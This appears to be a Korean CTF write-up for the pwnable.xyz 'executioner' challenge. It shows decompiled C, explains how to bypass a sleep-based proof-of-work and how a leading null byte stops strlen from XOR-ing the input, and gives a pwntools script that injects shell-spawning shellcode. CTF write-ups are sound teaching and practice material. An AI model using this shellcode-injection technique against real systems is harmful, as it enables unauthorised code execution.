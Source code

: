 ```yaml
---
title: "[pwnable.xyz]executioner"
date: 2020-1-26
ctf: Pwnable.xyz
layout: post
---
```


solve_pow()함수 통과하면 inpt에 입력할 수 있다. 근데 입력한 값을 랜덤값과 xor해준다. 이후 v4는 메모리 매핑해주고 우리가 xor한 값을 참조해 영역을 실행권한도 존재해서 실행할 수 있다. 

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  _QWORD *v4; // rax
  int i; // [rsp+0h] [rbp-20h]
  int fd; // [rsp+4h] [rbp-1Ch]

  setup();
  solve_pow();
  puts("Shellcode executioner");
  fd = open("/dev/urandom", 0);
  if ( fd != -1 )
  {
    read(fd, key, 127uLL);
    close(fd);
    printf("Input: ", key);
    read(0, inpt, 127uLL);
    for ( i = 0; i < strlen(inpt); ++i )
      inpt[i] ^= key[i];
    v4 = mmap(0LL, 0x1000uLL, 7, 34, 0, 0LL);
    *v4 = *inpt;
    v4[1] = qword_202288;
    v4[2] = qword_202290;
    v4[3] = qword_202298;
    v4[4] = qword_2022A0;
    v4[5] = qword_2022A8;
    v4[6] = qword_2022B0;
    v4[7] = qword_2022B8;
    v4[8] = qword_2022C0;
    v4[9] = qword_2022C8;
    v4[10] = qword_2022D0;
    v4[11] = qword_2022D8;
    v4[12] = qword_2022E0;
    v4[13] = qword_2022E8;
    v4[14] = qword_2022F0;
    v4[15] = qword_2022F8;
    JUMPOUT(__CS__, v4);
  }
  puts("error");
  return 1;
}
```

우선 이 `solve_pow()` 함수를 통과해야한다. 여기서도 랜덤값을 가져와서 두개 입력해서 더한 값이 랜덤값과 같아야한다. 근데 문제는 sleep() 해주는데 인자가 두개 입력한 걸 곱한 값이다. 근데 둘중 하나 0으로 하면 그냥 sleep(0) 되서 통과할 수 있다.  

```c
unsigned __int64 solve_pow()
{
  unsigned int buf; // [rsp+8h] [rbp-18h]
  int v2; // [rsp+Ch] [rbp-14h]
  int v3; // [rsp+10h] [rbp-10h]
  int fd; // [rsp+14h] [rbp-Ch]
  unsigned __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  fd = open("/dev/urandom", 0);
  if ( fd == -1 )
  {
    puts("Can't open /dev/urandom");
    exit(1);
  }
  buf = 0;
  read(fd, &buf, 4uLL);
  close(fd);
  v2 = 0;
  v3 = 0;
  printf("POW: x + y == 0x%x\n", buf);
  printf("> ");
  if ( _isoc99_scanf("%d %d", &v2, &v3) != 2 )
  {
    puts("scanf error");
    exit(1);
  }
  getchar();
  if ( v3 + v2 != buf )
  {
    puts("POW failed");
    exit(1);
  }
  puts("Loading challenge... ");
  sleep(v2 * v3);
  return __readfsqword(0x28u) ^ v5;
}
```

우선 위에서 말한대로 `solve_pow` 함수 통과하면 이후에 key와 xor하는데 strlen(inpt)을 해준다. 여기서 트릭이 널바이트 넣으면 거기까지밖에 문자로 인식 안한다는 것이다. 그래서 널바이트를 삽입하면 뒤에는 xor안할 수 있다. 이후 쉘코드 넣으면 쉘을 띄울 수 있다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
e = ELF('./challenge')
p = remote('svc.pwnable.xyz',30025)
#p = process('./challenge')
win = e.symbols['win']

## solve pow
p.recvuntil('POW: x + y ==')
buf = int(p.recvline().strip(),16)
p.sendlineafter('> ','0 ' + str(buf))

payload = '\x00'*2
payload += asm(shellcraft.amd64.sh())
p.sendafter(':',payload)

p.interactive()
```

